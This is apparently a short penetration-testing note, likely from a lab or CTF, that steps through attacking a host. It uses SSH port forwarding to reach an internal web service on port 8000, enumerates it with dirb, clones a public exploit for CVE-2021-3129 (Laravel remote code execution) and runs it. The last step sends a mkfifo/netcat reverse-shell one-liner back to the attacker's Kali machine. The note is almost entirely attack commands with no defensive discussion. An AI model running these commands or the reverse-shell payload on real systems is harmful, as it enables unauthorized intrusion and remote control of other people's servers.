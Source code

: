 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

####  example
FIRST, if the .ssh directory does not exist for the user, create it:

![[Port 22 - SSH  ~#Generate key upload to victim]]

Kali:
```bash - kali
ssh -i id_rsa -L 8000:localhost:8000 strapi@$TARGET
```

now visit 127.0.0.1:8000 in web browser

Now run web enumeration tools against localhost:8000/

```bash - kali
dirb http://$TARGET:8000 /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

```bash - kali
git clone https://github.com/nth347/CVE-2021-3129_exploit.git  
```

```bash - kali
cd CVE-2021-3129_exploit  
```

```bash - kali
chmod +x exploit.py
```

```bash - kali
./exploit.py http://localhost:8000 Monolog/RCE1 id
```

```bash - kali
./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc $KALI 443 >/tmp/f"
```

